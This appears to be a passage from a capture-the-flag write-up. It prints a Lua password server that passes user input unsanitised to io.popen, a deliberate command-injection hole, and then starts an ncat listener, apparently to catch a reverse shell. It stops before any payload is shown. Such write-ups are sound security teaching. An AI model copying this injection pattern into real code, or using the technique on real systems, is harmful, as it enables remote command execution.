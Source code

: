 We are given the below source code.

```lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 50001))

function hash(password)
  prog = io.popen("echo "..password.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local line, err = client:receive()
  if not err then
      print("trying " .. line) -- log from where ;\
      local h = hash(line)

      if h ~= "4754a4f4bd5787accd33de887b9250a0691dd198" then
          client:send("Better luck next time\n");
      else
          client:send("Congrats, your token is 413**CARRIER LOST**\n")
      end

  end

  client:close()
end
```

This is a command injection very similar to level 07 that can be exploited in
the same way. The lua script reads a line from the socket and passes it
directly to the `io.popen()` function call.

We start by setting up a netcat listener.

```shell
ncat -nlvp 8000

Ncat: Version 7.60 ( https://nmap.org/ncat )
Ncat: Generating a temporary 1024-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: 5F3F 6ECC 75A2 4FF9 C358 2913 09FF 5C75 6D50 F5A4
Ncat: Listening on :::8000
Ncat: Listening on 0.0.0.0:8000
```
